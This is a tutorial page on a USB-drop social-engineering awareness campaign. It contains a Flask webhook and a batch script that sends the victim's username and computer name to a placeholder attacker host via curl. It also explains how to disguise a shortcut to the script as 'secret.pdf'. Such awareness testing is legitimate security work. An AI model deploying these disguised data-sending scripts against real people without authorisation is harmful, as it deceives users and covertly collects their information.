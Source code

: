 ```yaml
---
icon: usb
---
```


# USB stick awareness

If you watch Mr. Robot, you must remember a scene where Darlene drops several USB sticks around a prison in order to Elliot get an reverse shell access. All that is needed is someone to pick it up and plug into a computer. Pretty cool, right?

<figure><img src="../.gitbook/assets/usbstick.gif" alt=""><figcaption><p>Mr. Robot Season 1, Episode 6.</p></figcaption></figure>

So, I'm not actually going to show how to create a Rubber Ducky for malicious purposes, instead, let's create a social engineering campaign with regular USB sticks. The purpose is to drop the USB sticks and create awareness to every user.

We need an attacker machine, ideally Kali running a Flask server, and as many USB sticks as you want.

So, let's dive into it!

**Prerequisites**

* **Python**: Make sure you have Python installed on your machine. You can download it from python.org.
*   **Flask**: You can install Flask using pip. Open your terminal or command prompt and run:

    ```bash
    pip install Flask
    ```

**Step-by-Step Guide to Create a Webhook**

1.  **Create a New Directory**: Create a new directory for your webhook project and navigate into it.

    ```bash
    mkdir my_webhook
    cd my_webhook
    ```
2. **Create a Python File**: Create a new Python file, e.g., `webhook.py`, and open it in your text editor.
3.  **Write the Webhook Code**: Add the following code to `webhook.py`:

    ```python
    from flask import Flask, request, jsonify
    import logging

    app = Flask(__name__)

    # Set up logging
    logging.basicConfig(level=logging.INFO)

    @app.route('/webhook', methods=['POST'])
    def webhook():
        # Get the JSON data from the request
        data = request.json
        
        # Log the received data
        logging.info(f"Received data: {data}")

        # Respond with a success message
        return jsonify({"status": "success", "message": "Data received"}), 200

    if __name__ == '__main__':
        app.run(host='0.0.0.0', port=5000)
    ```
4.  **Run the Webhook Server**: In your terminal, run the following command to start the Flask server:

    ```bash
    python webhook.py
    ```

    The server will start and listen for incoming requests on `http://localhost:5000/webhook`.
5.  **Testing the Webhook**: You can test the webhook using a tool like curl or Postman. Here’s how to test it using curl: Open a new terminal window and run:

    {% code overflow="wrap" %}
    ```bash
    curl -X POST http://localhost:5000/webhook -H "Content-Type: application/json" -d "{\"username\":\"test_user\", \"message\":\"USB accessed\"}"
    ```
    {% endcode %}

    You should see a response indicating that the data was received, and the server logs should show the received data.

**Now for the USB stick**

1.  **Create a batch file**: Create a new batch file, **script.bat** in the root of the USB stick:

    {% code overflow="wrap" %}
    ```batch
    @echo off
    setlocal

    REM Open Social Engineering Awareness document
    start "" "awareness.pdf"

    REM Retrieve user information
    set USERNAME=%USERNAME%
    set COMPUTERNAME=%COMPUTERNAME%

    REM Set USERINFO with escaped quotes
    set USERINFO={\"id\":\"0\",\"username\":\"%USERNAME%\", \"computername\":\"%COMPUTERNAME%\"}

    echo Sending the following JSON: %USERINFO%

    REM Send the information to the Flask server
    curl -X POST http://server_ip:5000/webhook -H "Content-Type: application/json" -d "%USERINFO%"

    Endlocal
    ```
    {% endcode %}

    Make sure you change the **server\_ip** for the actual attacker machine IP.
2. **Download an .ico file**: We can use a .ico file repository like [https://www.shareicon.net/](https://www.shareicon.net/t) and download any pdf .ico you like. Place it at the root of the USB stick.
3. **Move the awareness.pdf** file also into the root of the USB stick.
4. **Create a shortcut of the script.bat file**: Right click the shortcut, go to properties and click on **Change icon** and choose the .ico file you just downloaded it. Then rename the file to something mysterious like **secret.pdf**
5. **Put all the files Hidden except for the shortcut, secret.pdf**: Then we untick the **Hidden items** option

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>All visible files</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>What the user will see, hopefully</p></figcaption></figure>

Sure, we can see it is a shortcut, and we must rely on the fact that the victim has the 'Hidden items' option unticked. However, the purpose is for the user to notice the small details and create awareness within the organization.

{% hint style="info" %}
If noticed in the script.bat had the following line:

{% code overflow="wrap" %}
```batch
set USERINFO={\"id\":\"0\",\"username\":\"%USERNAME%\", \"computername\":\"%COMPUTERNAME%\"}
```
{% endcode %}

The 'id' parameter is useful when multiple USB sticks are used. For example, you can number the USB sticks and adjust the script accordingly. If someone plugs in USB stick 1 on the first floor (build A, room X, etc.), you will receive the information on the Flask server.
{% endhint %}



